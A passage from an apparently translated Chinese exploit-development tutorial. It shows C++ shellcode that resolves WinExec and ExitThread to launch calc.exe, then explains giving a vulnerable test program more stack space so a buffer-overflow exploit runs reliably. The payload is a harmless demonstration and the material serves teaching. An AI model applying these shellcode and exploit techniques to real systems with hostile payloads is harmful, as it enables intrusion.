     int entryPoint() {
        DefineFuncPtr(WinExec);
        DefineFuncPtr(ExitThread);
     
        char calc[] = { 'c', 'a', 'l', 'c', '.', 'e', 'x', 'e', '\0' };     // makes our shellcode shorter
        My_WinExec(calc, SW_SHOW);
        My_ExitThread(0);
     
        return 0;
    }
    

## 检测实验

如果利用没法在你的系统上成功执行，那么可能是因为在栈上的空间有限。下面将讨论在栈上分配更多空间的方法。

# 0x02 More space on stack（栈上分配更多的空间）

* * *

如果是因为fread内发生了不可思议的崩溃或因一些其它非法访问错误导致利用无法正常工作，那么可能是栈上的空间不足。

最容易的解决方法是修改程序的代码，从这里：

    
    
    #!c++
    #include <cstdio>
     
    int main() {
        <contents of main>
    }
    

到这里:

    
    
    #!c++
    #include <cstdio>
     
    _declspec(noinline) int old_main() {
        <contents of main>
    }
     
    int main() {
        char moreStack[10000];
        for (int i = 0; i < sizeof(moreStack); ++i)
            moreStack[i] = i;
     
        return old_main();
    }
    

例如，这里：

    
    
    #!c++
    #include <cstdio>
     